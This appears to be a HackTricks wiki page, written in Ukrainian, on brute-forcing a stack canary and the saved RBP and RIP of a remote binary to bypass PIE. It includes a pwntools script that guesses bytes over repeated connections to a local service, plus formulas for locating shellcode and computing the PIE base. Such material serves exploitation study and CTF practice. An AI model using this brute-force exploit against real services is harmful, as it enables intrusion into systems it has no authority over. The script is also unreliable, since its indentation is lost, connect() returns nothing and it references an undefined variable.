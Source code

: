 # BF Адреси в Стеку

{% hint style="success" %}
Вивчайте та практикуйте Хакінг AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання AWS Червоної Команди HackTricks (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте Хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання GCP Червоної Команди HackTricks (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

**Якщо ви маєте справу з бінарним файлом, захищеним канарейкою та PIE (Position Independent Executable), вам, ймовірно, потрібно знайти спосіб їх обійти.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Зверніть увагу, що **`checksec`** може не виявити, що бінарний файл захищений канарейкою, якщо він був статично скомпільований і не може ідентифікувати функцію.\
Однак ви можете вручну помітити це, якщо ви помітите, що значення зберігається в стеці на початку виклику функції і це значення перевіряється перед виходом.
{% endhint %}

## Brute-Force Адреси

Для **обходу PIE** вам потрібно **витікати деяку адресу**. І якщо бінарний файл не витікає жодних адрес, то найкраще зробити це - **перебрати RBP та RIP, збережені в стеці вразливої функції**.\
Наприклад, якщо бінарний файл захищений як **канарейкою**, так і **PIE**, ви можете почати перебирати канарейку, потім **наступні** 8 байтів (x64) будуть збережені **RBP**, а **наступні** 8 байтів будуть збережені **RIP**.

{% hint style="success" %}
Припускається, що адреса повернення всередині стеку належить до основного коду бінарного файлу, який, якщо вразливість знаходиться в коді бінарного файлу, зазвичай буде таким.

{% endhint %}

Для перебору RBP та RIP з бінарного файлу ви можете зрозуміти, що правильний вгаданий байт є правильним, якщо програма виводить щось або просто не виходить з ладу. Ту **саму функцію**, що надана для перебору канарейки, можна використовувати для перебору RBP та RIP:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
Останнє, що вам потрібно для перемоги над PIE, це обчислити **корисні адреси з витікших** адрес: **RBP** та **RIP**.

З **RBP** ви можете обчислити **де ви пишете свій shell в стеку**. Це може бути дуже корисно, щоб знати, де ви збираєтеся записати рядок _"/bin/sh\x00"_ всередині стеку. Щоб обчислити відстань між витікшим RBP та вашим shellcode, ви можете просто встановити **точку зупинки після витоку RBP** та перевірити **де знаходиться ваш shellcode**, після цього ви можете обчислити відстань між shellcode та RBP:
```python
INI_SHELLCODE = RBP - 1152
```
З **RIP** ви можете обчислити **базову адресу PIE-бінарного файлу**, що вам знадобиться для створення **дійсного ланцюжка ROP**.\
Щоб обчислити базову адресу, просто виконайте `objdump -d vunbinary` та перевірте розібрані останні адреси:

![](<../../../.gitbook/assets/image (479).png>)

У цьому прикладі ви можете побачити, що для визначення всього коду потрібно лише **1 байт та півтора**, тоді базова адреса в цій ситуації буде **витікати з RIP, але закінчуватися на "000"**. Наприклад, якщо витікло `0x562002970ecf`, базова адреса буде `0x562002970000`
```python
elf.address = RIP - (RIP & 0xfff)
```
## Покращення

Згідно з [**деякими спостереженнями з цього посту**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking), можливо, коли витікають значення RBP та RIP, сервер не впаде з деякими значеннями, які не є правильними, і скрипт BF подумає, що він отримав правильні. Це тому, що можливо, **деякі адреси просто не зламають його, навіть якщо вони не є точно правильними**.

Згідно з цим блог-постом рекомендується додати коротку затримку між запитами до сервера.

{% hint style="success" %}
Вивчайте та практикуйте Хакінг AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте Хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
